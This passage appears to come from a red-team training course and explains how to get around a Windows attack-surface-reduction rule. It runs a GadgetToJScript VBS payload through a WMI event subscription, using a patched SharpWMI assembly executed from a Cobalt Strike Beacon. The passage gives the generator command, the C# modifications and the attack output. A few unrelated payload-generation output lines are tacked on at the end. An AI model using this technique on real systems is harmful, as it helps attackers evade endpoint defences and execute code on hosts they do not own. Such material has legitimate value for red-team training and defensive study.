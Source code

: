The rule effectively prevents WmiPrvSE.exe from spawning children.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/wmiprvse-blocked.png)

The way to get around this one is to use VBScript payloads via an event subscription.

This requires a number of steps:

-   Generate a payload
-   Connect to WMI
-   Create an event filter to trigger the execution (via a timer)
-   Create an [ActiveScriptEventConsumer](https://docs.microsoft.com/en-us/windows/win32/wmisdk/activescripteventconsumer), using the VBScript engine
-   Create a FilterToConsumerBinding to link the filter and consumer
-   Wait for execution
-   Delete all of the above

Luckily, [SharpWMI](https://github.com/GhostPack/SharpWMI) already has this capability built-in.  For the payload, we can use one of our C# process injection projects and GadgetToJScript with the **-w vbs** option to write this out to a .vbs file.
```
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -a TestAssembly\bin\Debug\TestAssembly.dll -w vbs -o C:\Users\Administrator\Desktop\wmi -b
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs
```

There are some gotcha's from here.  SharpWMI's `script=` parameter expects to read the VBS file off disk of the machine running Beacon (not from your host), or it takes the input as raw VBS.  The `scriptb64=` parameter takes the VBS as a single base64 encoded string, but the G2JS gadget is too large to fit on the CS command line.  A solution to this, though far from ideal, is to hardcode the gadget directly into the SharpWMI assembly.

At the top of **Program.cs** you will see several **private static string** fields.  Create a new called HardcodedGadget (or something similar) and copy/paste the G2JS VBS here.
```cs
private static string HardcodedGadget = @"<PUT YOUR VBS HERE>";
```

Within this file, there's also a method called **GetVBSPayload**, which returns a string.  It usually returns a VBS payload based on your script= or scriptb64= input.  But I'm going to force this method to always return the hardcoded gadget by doing something like this:
```cs
static string GetVBSPayload(Dictionary<string, string> arguments)
{
    return HardcodedGadget;
}
```

Then just re-compile the assembly and execute it.
```
beacon> execute-assembly /root/tools/SharpWMI2.exe action=executevbs computername=wkstn-2 script=blah

[*] Using direct script's parameter as VBScript payload.
[*] Script will trigger after 10 and we'll wait for 12 seconds.

[*] Creating Event Subscription Debug : wkstn-2 - with interval between events: 10 secs
[*] Setting 'Debug' event filter on wkstn-2
[*] Setting 'Debug' event consumer on wkstn-2 to kill script after 12 secs
[*] Binding 'Debug' event filter and consumer on wkstn-2

[*] Waiting 10 seconds for event to trigger on wkstn-2 ...

[*] Removing 'Timer' internal timer from wkstn-2
```

[+]: Generating the vba payload
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba